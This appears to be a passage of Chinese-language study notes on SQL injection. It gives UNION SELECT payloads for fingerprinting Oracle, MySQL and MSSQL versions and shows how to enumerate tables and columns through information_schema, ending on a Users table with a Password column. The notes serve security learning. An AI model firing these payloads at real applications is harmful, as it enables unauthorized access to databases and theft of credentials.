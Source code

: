 Oracle  版本要用 banner 才能撈到資料
```
' UNION SELECT BANNER,NULL FROM v$version--
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```


Microsoft, MySQL: 在 URL 的時候 `--` 這個註解空白會被吃掉
```
' UNION SELECT @@version, NULL -- #
```

`DUAL` 空表 (Oracle,MSSQL,MYSQL)
```
select * from DUAL
```
Oracle 必須要

----------

## 列出 DB 的內容
大多數 DB (Oracle 除外) 都有 information schema，提供關於 DB 的資訊
- 查詢 `information_schema.tables` 來列出 DB 中的 table 

```sql
SELECT * FROM information_schema.tables
```

結果

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```


結果表示有三個 table，Products, Users, and Feedback
- 然後我們可以查詢 `information_schema.columns` 來列出各個 table 中的 columns：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

結果:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```




